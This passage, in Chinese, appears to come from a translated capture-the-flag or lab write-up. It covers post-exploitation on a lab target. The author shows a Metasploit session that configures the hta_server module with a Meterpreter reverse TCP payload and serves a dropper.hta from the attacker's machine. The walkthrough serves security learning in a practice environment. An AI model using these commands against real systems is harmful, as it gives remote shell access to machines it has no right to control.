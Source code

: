 ![](img/9a8ef85ed81053ee30f6b209c413c959.png)

**图 5**

## 后剥削

就我个人而言，我更喜欢 Meterpreter 外壳( [Metasploit Unleashed，n.d.](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) )。为了得到它，我最初尝试 Metasploit 的`web_delivery`模块通过 PowerShell 和一个`base64`编码的有效载荷来交付它——但是有效载荷无法执行。因此，我寻找了一种替代方法，通过 HTA 应用程序( [Microsoft Docs，2013](https://docs.microsoft.com/en-us/previous-versions/ms536496(v=vs.85)) )来交付和执行有效载荷，这是由 [Chandel (2019)](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/) 讨论的。在 AttackBox 上，我启动了 Metasploit，然后配置并启动了`hta_server`模块:

```
**┌──(dna@deniers)-[~/atlas]
└─$ sudo msfconsole  **              
[sudo] password for dna: ***inputs password***[... snip ...]**msf6 > use exploit/windows/misc/hta_server**
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
**msf6 exploit(windows/misc/hta_server) > set SRVHOST 0.0.0.0**
SRVHOST => 0.0.0.0
**msf6 exploit(windows/misc/hta_server) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(windows/misc/hta_server) > exploit**
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.[*] Started reverse TCP handler on <attackbox ip>:4444 
[*] Using URL: http://<attackbox ip>:8080/dropper.hta
[*] Server started.
```
